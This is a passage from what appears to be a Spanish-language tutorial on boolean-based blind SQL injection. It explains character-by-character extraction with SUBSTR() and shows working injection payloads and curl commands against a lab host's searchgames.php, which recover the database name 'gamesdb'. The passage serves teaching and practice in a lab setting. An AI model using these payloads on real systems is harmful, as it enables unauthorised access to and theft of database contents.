 Por lo tanto, utilizando esa lógica booleana que determina si una condición es verdadera o falsa, podemos obtener toda la información de la base de datos carácter por carácter.

Con la función `SUBSTR()`, podemos ejecutar tanto una sentencia SQL como una función y limitar el resultado a un solo carácter, siendo la estructura que utilizaremos tal que así `SUBSTR([FUNCIÓN O SENTENCIA SQL],[POSICIÓN DEL CARÁCTER],[CANTIDAD])="[CARÁCTER A COMPARAR]"`.

Digamos que queremos saber primero el nombre de la base de datos, para ello simplemente le añadimos la siguiente condición: el primer carácter de la base de datos es igual a la letra '**a**' `9' OR SUBSTR(database(),1,1)="a"`, en caso de que sea errona, que lo es, no nos mostrara el mensaje.

![img](/assets/img/sqli/database()='a'.png)

De la misma manera, si lo igualamos a la letra que si que es igual al de la primera posición de la base de datos, en este caso la letra '**g**' `9' OR SUBSTR(database(),1,1)="g"` si que nos muestra el mensaje.

![img](/assets/img/sqli/database()='g'.png)

Ya con este metodo podremos aberiguar el nombre de la base de datos, cambiando  a necesidad la posición del carácter a adivinar.

```bash
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or substr(database(),1,1)='g'-- -"; echo
Producto encontrado
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or substr(database(),2,1)='a'-- -"; echo
Producto encontrado
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or substr(database(),3,1)='m'-- -"; echo
Producto encontrado
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or substr(database(),4,1)='e'-- -"; echo
Producto encontrado
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or substr(database(),5,1)='s'-- -"; echo
Producto encontrado
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or substr(database(),6,1)='d'-- -"; echo
Producto encontrado
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or substr(database(),7,1)='b'-- -"; echo
Producto encontrado
❯ curl -s -X GET "http://192.168.6.5/searchgames.php" -G --data-urlencode "id=9'or substr(database(),1,7)='gamesdb'-- -"; echo
Producto encontrado
```
